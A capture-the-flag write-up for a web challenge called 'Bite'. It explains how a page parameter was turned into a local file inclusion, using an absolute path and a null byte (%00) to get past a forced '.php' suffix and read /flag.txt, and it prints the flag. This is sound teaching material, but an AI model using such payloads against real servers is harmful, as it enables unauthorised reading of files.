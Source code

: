# Bite
Author: [gallifrey](https://github.com/gall1frey)

# Challenge

```
Want to learn about binary units of information? 
Check out the "Bite of Knowledge" website!

Connect here:
http://jh2i.com:50010
```

# Solution

The search bar doesn't seem to be doing anything, but when you click a link on the sidebar, it takes you to the
page for that thing.
The link follows a pattern, like

```http://jh2i.com:50010/?page=[word]```

So I change the url to ```http://jh2i.com:50010/?page=flag```

This took me to a page where it told me that the flag was in the ``/flag.txt``` file.

![](flagtxt.png)

So, I try ```http://jh2i.com:50010/?page=/flag.txt```

That didn't work because the server keeps appending the string entered with '.php'

![](flagerr.png)

A work around that is to enter a null character at the end of the string, like ```http://jh2i.com:50010/?page=/flag.txt%00```
That got me the flag

```
flag{lfi_just_needed_a_null_byte}
```
